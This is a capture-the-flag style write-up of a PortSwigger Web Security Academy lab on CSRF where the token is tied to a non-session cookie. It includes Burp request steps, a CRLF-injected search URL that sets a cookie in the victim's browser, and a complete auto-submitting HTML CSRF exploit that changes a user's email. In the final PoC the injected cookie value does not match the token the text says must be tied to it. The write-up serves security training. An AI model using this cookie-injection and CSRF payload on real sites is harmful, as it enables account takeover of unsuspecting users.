 # CSRF where token is tied to non-session cookie

## Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)'s email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system. 

## Reproduction and proof of concept

1. Open Burp's browser and log in to the `wiener` account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that changing the `session` cookie logs you out, but changing the `csrfKey` cookie merely results in the `csrf` token being rejected. This suggests that the `csrfKey` cookie may not be strictly tied to the session. To check `csrf` cookie and `csrf` token are tied, enter an invalid token. The request is not accepted.
3. Open a private/incognito browser window, log in to Portswigger, then on the lab site into the `carlos` attacker account, and send a fresh update email request into Burp Repeater.
4. Swapping the `csrfKey` cookie and `csrf` parameter from the `carlos` account to the `wiener` account (or vv), the request is accepted.

```text
HTTP/1.1 302 Found
Location: /my-account
Connection: close
Content-Length: 0
```

Swapping only one of the two, the request is not accepted. The two are tied.

5. Close the Repeater tab and incognito browser.
6. Back in the original browser in the `wiener` account, do a search, send the resulting request to Burp Repeater. Check that the search term gets reflected in the `Set-Cookie` header. 

```text
GET /?search=whatever HTTP/1.1
Host: 0a8a007003328fbbc0520eb3006500e7.web-security-academy.net
Cookie: session=3434rpqGQke3AkVlNlulO9qFJKzTjK4J; csrfKey=h8xkUPRUr4PbtkKwRm6bORpJx5qWNibu
...
```

Because the search function has no CSRF protection, this can be used to inject cookies into the victim user's browser.

7. Create a URL that uses this vulnerability to inject a `csrfKey` cookie from the carlos attacker account into the victim's browser:

```text
/?search=test%0d%0aSet-Cookie:%20csrfKey=JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4%3b%20SameSite=None
```

Results:

```text
HTTP/1.1 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4; SameSite=None; Secure; HttpOnly
```
    
8. Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab (above), ensuring that you include your CSRF token. The exploit should be created from the email change request.
9. Remove the auto-submit `script` block and replace it with the `/?search=test%0d%0aSet-Cookie:%20csrfKey=JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4%3b%20SameSite=None`, and change the `csrf` token to the tied `csrfKey` one of the attacker:

```text
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a8a007003328fbbc0520eb3006500e7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a8a007003328fbbc0520eb3006500e7.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=49yoasBlApBjSMbVt4Qi2SddyqBHMqgn%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

**Copy HTML** and put it in the `body` of the **Exploit server** form:

![CSRF](../../_static/images/csrf2.png)

10. **Store** the exploit in the exploit server of the lab, then click **Deliver to victim**.

## Exploitability

An attacker needs to use the exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. There are two accounts on the application that can be used: `wiener:peter` (victim) and `carlos:montoya` (attacker).

## Impact

If an attacker can change the email address of another user, he/she can log in as that user and gain access to the account and all of its data.
